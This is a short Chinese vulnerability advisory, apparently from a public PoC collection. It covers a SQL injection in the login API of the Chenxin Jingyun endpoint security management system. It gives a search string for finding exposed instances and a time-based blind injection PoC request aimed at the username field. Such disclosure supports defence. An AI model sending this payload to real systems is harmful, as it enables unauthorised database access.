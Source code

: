 # 

# 辰信领创 辰信景云终端安全管理系统 login SQL注入漏洞

## 漏洞描述

辰信领创 辰信景云终端安全管理系统 login存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

辰信领创 辰信景云终端安全管理系统

## 网络测绘

```
"辰信景云终端安全管理系统"
```

## 漏洞复现

登录页面

![image-20230828164335170](images/image-20230828164335170.png)

验证POC

```
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```

![image-20230828164347102](images/image-20230828164347102.png)
